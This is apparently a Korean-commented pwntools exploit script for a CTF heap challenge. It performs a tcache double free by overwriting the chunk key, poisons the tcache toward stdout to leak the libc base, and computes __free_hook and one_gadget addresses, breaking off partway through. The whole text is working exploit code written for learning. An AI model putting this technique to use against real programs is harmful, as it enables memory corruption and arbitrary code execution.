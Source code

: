 ```
# chunk : first(1)
allocate(0x30, b'first')


# tcache[0x40] : first(1)
free()  # (1)


# tcache[0x40] : first(1) -> aaaaaaaa
# (chunk + 8)에 위치하는 key를 변조해서 Double Free에 걸리지 않기 위해 b'a' 한개 더 대입
edit(b'a'*0x8 + b'a')


# tcache[0x40] : first(2) -> first(1) + 0x10 (동일한 청크가 tcache에 double free되는 경우 헤더를 넘어서서 0x10이 더해짐)
free()  # (2)
# LIFO 이기 때문에 이후에 해제된 게 linked list의 헤더에 위치 (같은 first이지만, 순서를 구분하고 LIFO를 보여주기 위해 괄호에 코드의 위치인 (2) 추가)


# tcache[0x40] : first(1) + 0x10 -> stdout -> _IO_2_1_stdout_
# chunk : first(2)
stdout = elf.symbols['stdout']
allocate(0x30, p64(stdout))
# 청크의 데이터 영역에 stdout을 대입하면 next가 stdout을 가리키게 되고,
# stdout의 메모리에 저장된 값은 _IO_2_1_stdout_이므로 stdout의next는 다시 _IO_2_1_stdout_을 가리킴


# tcache[0x40] : stdout -> _IO_2_1_stdout_
# chunk : first(1) (tcache에 들어갈 때는 동일한 청크이면 `+0x10`이 되었지만 할당될때는 또 `+0x10`이 되지 않고 그대로 동일한 청크 주소가 할당됨)
allocate(0x30, b'a')
# 어떤 값을 대입하면서 allocate하더라도 이미 tcache에는 stdout이 링크드 리스트의 헤더(청크의 헤더X)로 존재하므로 상관없음


# tcache[0x40] : _IO_2_1_stdout_
# chunk : stdout
_IO_2_1_stdout_lsb = p64(libc.symbols['_IO_2_1_stdout_'])[0:1]  # 첫번째 문자열 가져옴 : 문자열에서 첫번째는 lsb
allocate(0x30, _IO_2_1_stdout_lsb)
# 여기서 중요한게, 바로 아래에서 print_chunk를 할건데, stdout에 저장된(가리키는) _IO_2_1_stdout_을 변조하면 안됨
# 하지만 libc base를 몰라서 IO_stdout을 모르지만, 다행히 하위 3비트는 오프셋으로 고정되어 있어서 하위 1바이트인 lsb도 고정되있어서 lsb를 대입해주면 됨(리틀엔디언 잘 생각)


print_chunk()  # stdout에 저장된 IO_2_1_stdout_lsb 주소 출력
p.recvuntil(b'Content: ')  # print_chunk에서 'Content: '는 안받아줬기 때문에 여기까지 받아줘야 libc_base를 제대로 계산 가능

# Leak libc base
libc_base = u64(p.recvn(6).ljust(8, b'\x00')) - libc.symbols['_IO_2_1_stdout_']
free_hook = libc_base + libc.symbols['__free_hook']

# og = libc_base + 0x4f3ce
# og = libc_base + 0x4f3d5
og = libc_base + 0x4f432
# og = libc_base + 0x10a41c


# 여기서 tcache[0x40] 을 다시 쓰면 _IO_2_1_stdout_을 가져오는데 이 주소의 값을 바꾸면 안되므로 다른 tcache 엔트리르 써야함

# tcache[0x50] : empty
# chunk : first(1)
allocate(0x40, b'first')


```